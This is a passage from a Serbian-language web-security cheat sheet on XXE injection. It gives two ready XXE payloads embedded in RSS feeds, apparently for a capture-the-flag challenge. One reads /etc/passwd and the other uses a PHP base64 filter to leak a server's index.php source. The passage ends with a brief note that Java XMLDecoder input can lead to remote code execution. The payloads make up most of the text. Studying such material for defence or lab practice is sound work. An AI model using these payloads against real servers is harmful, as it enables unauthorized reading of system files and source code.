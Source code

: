 ### Čitanje fajla

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>The Blog</title>
<link>http://example.com/</link>
<description>A blog about things</description>
<lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>a post</description>
<author>author@example.com</author>
<pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```

### Čitanje izvornog koda

Korišćenjem PHP base64 filtera

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=file:///challenge/web-serveur/ch29/index.php" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>The Blog</title>
<link>http://example.com/</link>
<description>A blog about things</description>
<lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>a post</description>
<author>author@example.com</author>
<pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```

## Java XMLDecoder XEE to RCE

XMLDecoder je Java klasa koja kreira objekte na osnovu XML poruke. Ako zlonamerni korisnik može naterati aplikaciju da koristi proizvoljne podatke u pozivu metode **readObject**, odmah će dobiti izvršenje koda na serveru.
